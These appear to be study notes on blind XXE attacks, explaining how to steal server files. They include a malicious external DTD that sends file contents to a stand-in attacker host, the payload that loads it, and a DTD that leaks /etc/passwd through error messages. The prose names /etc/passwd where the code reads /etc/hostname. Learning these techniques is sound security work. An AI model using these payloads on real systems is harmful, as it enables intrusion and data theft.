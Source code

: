 An example of a malicious `DTD` to exfiltrate the contents of the `/etc/passwd` file is as follows:
```dtd
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">    <!-- Either use Exploit Server or Burp Collaborator, Check the Request -->
%eval;
%exfiltrate;
```

This `DTD` carries out the following steps:
-   Defines an XML parameter entity called `file`, containing the contents of the `/etc/passwd` file.
-   Defines an XML parameter entity called `eval`, containing a dynamic declaration of another XML parameter entity called `exfiltrate`. The `exfiltrate` entity will be evaluated by making an HTTP request to the attacker's web server containing the value of the `file` entity within the URL query string.
-   Uses the `eval` entity, which causes the dynamic declaration of the `exfiltrate` entity to be performed.
-   Uses the `exfiltrate` entity, so that its value is evaluated by requesting the specified URL.

Finally, the attacker must submit the following XXE payload to the vulnerable website:
`<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://web-attacker.com/exploit"> %xxe;]>`

This XXE payload declares an XML parameter entity called `xxe` and then uses the entity within the DTD. This will cause the XML parser to *fetch* the external DTD from the attacker's server and interpret it inline. The steps defined within the malicious DTD are then executed, and the `/etc/hostname` file is transmitted to the attacker's server.

%%  Note: This technique *might not work* with some file contents, including the newline characters contained in the `/etc/passwd` file. This is because some XML parsers fetch the URL in the external entity definition using an API that validates the characters that are allowed to appear within the URL. In this situation, it might be possible to use the FTP protocol instead of HTTP. Sometimes, it will not be possible to exfiltrate data containing newline characters, and so a file such as `/etc/hostname` can be targeted instead.  %%


## Exploiting Blind XXE to retrieve data via error messages
You can trigger an XML parsing error message containing the contents of the `/etc/passwd` file using a malicious external DTD as follows:

```dtd
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval; 
%error;
```

This DTD carries out the following steps:
-   Defines an XML parameter entity called `file`, containing the contents of the `/etc/passwd` file.
-   Defines an XML parameter entity called `eval`, containing a dynamic declaration of another XML parameter entity called `error`. The `error` entity will be evaluated by loading a nonexistent file whose name contains the value of the `file` entity.
-   Uses the `eval` entity, which causes the dynamic declaration of the `error` entity to be performed.
-   Uses the `error` entity, so that its value is evaluated by attempting to load the nonexistent file, resulting in an error message containing the name of the nonexistent file, which is the contents of the `/etc/passwd` file.
